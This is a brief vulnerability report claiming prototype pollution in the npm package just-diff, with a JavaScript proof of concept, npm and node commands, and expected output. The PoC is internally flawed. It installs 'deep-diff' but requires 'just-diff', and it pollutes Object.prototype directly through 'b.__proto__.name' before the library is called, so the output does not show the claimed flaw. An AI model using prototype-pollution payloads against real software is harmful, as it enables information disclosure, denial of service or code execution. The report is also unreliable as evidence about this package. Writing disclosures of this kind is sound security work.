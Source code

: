 # Description

`just-diff` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var justDiff = require("just-diff")
var a = {name: "xyz"};
var b = JSON.parse(JSON.stringify(a));
b.__proto__.name = "Yes! Its Polluted";
justDiff.diff(a, b);
console.log({}.name) 
```

2. Execute the following commands in another terminal:

```bash
npm i deep-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
